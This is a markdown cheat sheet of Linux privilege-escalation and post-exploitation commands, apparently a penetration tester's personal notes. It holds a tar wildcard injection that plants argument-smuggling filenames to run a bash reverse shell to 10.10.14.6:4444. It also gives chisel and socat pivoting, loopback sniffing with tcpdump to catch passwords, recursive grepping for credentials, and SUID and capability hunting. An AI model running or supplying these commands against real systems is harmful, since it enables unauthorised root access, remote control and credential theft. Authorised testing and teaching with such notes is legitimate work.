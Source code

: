 - always check the `$PATH` value!
- some [check list](https://github.com/netbiosX/Checklists/blob/master/Linux-Privilege-Escalation.md)
- Siren's [notes](https://sirensecurity.io/blog/linux-privilege-escalation-resources/)
- restricted shell bypass [hacktricks](https://www.hackingarticles.in/multiple-methods-to-bypass-restricted-shell/) , [exploit-db](https://www.exploit-db.com/docs/english/44592-linux-restricted-shell-bypass-guide.pdf)
```bash
## General notes
# List systemd timers
systemctl list-timers
# port binding using ssh | localPort:socket:remotePort
ssh -L 4444:127.0.0.1:8080 soraka@172.17.0.2
# -- pivoting --
chisel server -p 3477 --socks5 --reverse
chisel client 10.10.10.10:3477 R:5000:socks
# file transfer using /dev/tcp
exec 3<>/dev/tcp/www.google.com/80
echo -e "GET / HTTP/1.1\r\nhost: http://www.google.com\r\nConnection: close\r\n\r\n" >&3
cat <&3
## 
exec 3<>/dev/tcp/$host/4444
cat <&3

```
##### upgrade shell
```bash
python3 -c "import pty; pty.spawn('/bin/bash')" || python -c "import pty; pty.spawn('/bin/bash')" || script -qc /bin/bash /dev/null
# Ctrl+Z
stty raw -echo;fg ; reset
stty columns 200 rows 200

```
##### exports
```bash

export TERM=linux
export TERM=xterm-256color
stty columns 156 rows 40
alias l='ls -lav --ignore=.?*'
alias la='ls -lav --color=auto'
alias ll='ls -lav --ignore=..'
alias ls='ls --color=auto'
alias ll='ls -lsaht --color=auto'
cd(){ pwd; builtin cd "$@"; pwd; ls -F; }
shopt -s autocd
function cd(){
    builtin cd "$@" && ls
}
chpwd() ls
chr() {
  printf \\$(printf '%03o' $1)
}

ord() {
  printf '%d' "'$1"
}



export PATH="/usr/local/sbin:/usr/local/bin:/usr/bin:/bin:$PATH"


```
- Tunneling/Port forwarding
```sh
# redirect all in (:2345) out to (:5432)
socat -ddd TCP-LISTEN:2345,fork TCP:10.4.50.215:5432

```
###### container enumerate
```bash
grep 'docker\|lxc' /proc/1/cgroup
mount  # show filesystem mount
df   # filesystem usage
```
##### manual enumeration
```bash
# os/version
cat /etc/issue
cat /etc/os-release

# network socket
ss -lntp # -n don't resolve service name
ss -ltp
ss -anp
cat /etc/iptables/rules.v4
routel
# grep recursive 
grep -i -R password .
# find for files/folders owned by a user
find / -user soraka 2>/dev/null
# read secondary permissions
lsattr
# find suid/guid
find / -perm -4000 -type f ! -path "/dev/*" 2>/dev/null
find / -perm -2000 -type f ! -path "/dev/*" 2>/dev/null
find / -user root -perm -4000 -exec ls -la {} \; 2> /dev/null
find / -perm /6000 2>/dev/null
# get caps
getcap -r / 2>/dev/null | head -n 50 
# others
lsblk
lsmod
/sbin/modinfo libata
# always monitor network in pentest
sudo tcpdump -i lo -A | grep "pass"
# cronjobs
grep "CRON" /var/log/syslog
# check AppArmor
aa-status
```
- uniqe exploitations
```bash
# tar wildcard
echo "bash -i >& /dev/tcp/10.10.14.6/4444 0>&1" > shell.sh
echo "" > "--checkpoint-action=exec=sh shell.sh"
echo "" > "--checkpoint=1"
```
ruby [priv esc](https://ihsansencan.github.io/privilege-escalation/linux/binaries/ruby.html)
##### kernels archives:
- [alpine](https://dl-cdn.alpinelinux.org/alpine/) linux archive
- [voidlinux](https://repo-default.voidlinux.org/live/) archive
- [nixos](https://releases.nixos.org/)


folders to check
```bash
/tmp/
/dev/shm/
/home/
/opt/
/etc/
/var/mail/
/var/www/
/


```
files to check
```bash
/etc/fstab
```